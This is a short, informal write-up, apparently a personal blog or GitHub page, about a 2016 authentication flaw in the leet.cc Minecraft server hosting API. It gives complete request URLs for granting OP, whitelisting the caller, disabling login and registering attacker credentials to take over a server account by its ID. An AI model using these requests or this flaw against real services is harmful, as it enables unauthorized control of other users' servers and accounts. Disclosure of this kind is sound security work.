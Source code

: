 ```yaml
---
title: leet.cc account takeover (old bug)
---
```


<https://leet.cc> is an minecraft bedrock server hosting provider.  
The following bug allowed getting OP just by knowing someone's server domain.

This bug is from 2016 the same time they had their database breached <https://www.databreaches.net/leet-cc-data-hacked-in-february-publicly-dumped/> where someone uploaded a PHP shell to their website... This is from memory I may get stuff wrong.

I would hope it's fixed now 🙂but then this is `leet.cc`

# Methodology
Reverse engineer the Android app using online apk decompilers and look at the network traffic using <https://www.telerik.com/fiddler> to see if the API did authentication correctly.  
Credit: <https://www.youtube.com/watch?v=LbZqaLKS7V4>

Server IDs (Incremental number) are used to identify what server to act on for the API.  
This could be gotten easily by using `https://leet.cc/verifyServerDomain.php?domain=<domain>`  
The user ID was the user's email address or their device ID which used to be optional.

# The exploit
In order to exploit this one would make a request to:

`https://mainapi.leet.cc/actionNew.php?cmd=<command>&userID=<userID>&params[]=<serverID>&params[]=<commandParameter>&versionCode=176&password=something_secret&client=google-free&k=<Base 64 encoded MD5 Hash of part of the URL>&sys=<Base 64 encoded MD5 Hash of part of the URL>`
No one knows why `k` and `sys` were there.

And now the how to exploit FAQ 🙂
# I want OP!
- `<command>` is `changeOP`
- `<commandParameter>` is your in-game name

# I'm not whitelisted. What should I do?
- `<command>` is `changeWhitelistPlayers`
- `<commandParameter>` is your in-game name

# The server name is missing a duck emoji, no problem!
- `<command>` is `changeServerName`
- `<commandParameter>` is 🦆

# This old login using `/login <password>` is too annoying.
- Just set `setUserRegistration` to off!

# I wanted an account takeover!
Okay send a request to `https://mainapi.leet.cc/serverLogin.php?serverEmail=<attacker email>&serverPassword=<attacker password>&registerServerID=<serverId>&registerUserID=<userId>`
